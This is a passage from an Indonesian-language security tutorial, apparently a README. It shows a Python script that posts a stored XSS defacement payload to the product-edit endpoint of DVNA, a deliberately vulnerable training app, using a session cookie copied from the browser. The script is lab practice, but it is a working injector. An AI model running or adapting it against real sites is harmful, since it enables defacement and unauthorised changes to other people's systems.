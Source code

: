 #### Implement/Iterate

- Sebelum masuk ke dalam code, cek dulu web yang dijadikan target. Pastikan web dapat diakses. Dalam kasus DVNA, alamat web nya adalah `http://localhost:9090`.
- Cek dulu path/URL yang vulnerable, lakukan testing dengan masukkan XSS payload di web.
- Ambil credential seperti token/cookies untuk dipakai script Python.
- Setelah siap, mulai buat program Python.

```python
# xss_attack.py
import requests
from urllib.parse import quote

# Target URL diketahui dari inspect element --> Network
TARGET_URL = "http://localhost:9090/app/modifyproduct"

# code yang disisipkan ke dalam server
XSS_PAYLOAD = """
<script>
  document.body.style.backgroundColor = 'hotpink';
  let msg = document.createElement('div');
  msg.innerText = '⛔ Your website is not secured ⛔ @nonYmous';
  msg.style.position = 'fixed';
  msg.style.top = '20px';
  msg.style.left = '20px';
  msg.style.padding = '10px';
  msg.style.backgroundColor = 'black';
  msg.style.color = 'white';
  msg.style.fontSize = '20px';
  msg.style.zIndex = 9999;
  document.body.appendChild(msg);
</script>
"""

# Encode payload agar aman via URL
encoded_payload = quote(XSS_PAYLOAD)

# Untuk case DVNA, berikut adalah payload POST app/modifyproduct
# Cara mengetahuinya dengan inspect element --> cek Network
data = {
    "id":1,
    "name": XSS_PAYLOAD,
    "code": "222",
    "tags": "tag",
    "description": "yes",
}

# Cookie perlu di supply dari user. Ganti cookie di bawah dengan yang didapat dari browsermu.
headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "XSS--Agent",
    "Cookie": "caonnect.sid=s%3A7HHg5aKYP7WNJYY_GazcmHRCxHQZs0F9.5FcFsMy%2FLqKAZvRVTCYNwK7PgTE6hP%2FjlhOtixJ3dLE",
}

print(f"Sending XSS payload to {TARGET_URL}")
response = requests.post(TARGET_URL, data=data, headers=headers)

# Check response
if response.status_code == 200:
    print("Payload sent. Refresh your browser.")
else:
    print(f"Failed to send payload. Status: {response.status_code}")
```

